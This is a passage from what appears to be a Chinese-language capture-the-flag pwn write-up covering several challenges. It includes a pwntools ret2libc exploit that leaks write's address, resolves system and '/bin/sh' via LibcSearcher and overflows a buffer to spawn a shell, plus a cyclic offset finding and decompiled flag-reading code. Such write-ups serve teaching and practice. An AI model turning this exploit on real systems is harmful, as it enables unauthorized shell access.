```python
write_addr = u32(io.recv(4))

libc=LibcSearcher('write',write_addr)

libcbase=write_addr-libc.dump("write")

system_addr=libcbase+libc.dump("system")

binsh_addr=libcbase+libc.dump("str_bin_sh")

payload_exp= b'a'*140 + p32(system_addr) + p32(0) + p32(binsh_addr)

io.sendline(payload_exp)

io.interactive()
```



## others_shellcode

nc连上，直接cat flag就有

```
flag{1a434df0-dc6d-4af5-a673-5ed91bf63169}
```



## jarvisoj_tell_me_something

64位nx



read有个栈溢出，136

```
pwndbg> cyclic -l 0x6161616161616172
Finding cyclic pattern of 8 bytes: b'raaaaaaa' (hex: 0x7261616161616161)
Found at offset 136
```



然后有一个goodgame

```
int good_game()
{
  FILE *v0; // rbx
  int result; // eax
  char buf[9]; // [rsp+Fh] [rbp-9h] BYREF

  v0 = fopen("flag.txt", "r");
  while ( 1 )
  {
    result = fgetc(v0);
    buf[0] = result;
    if ( (_BYTE)result == 0xFF )
      break;
    write(1, buf, 1uLL);
  }
  return result;
}
```
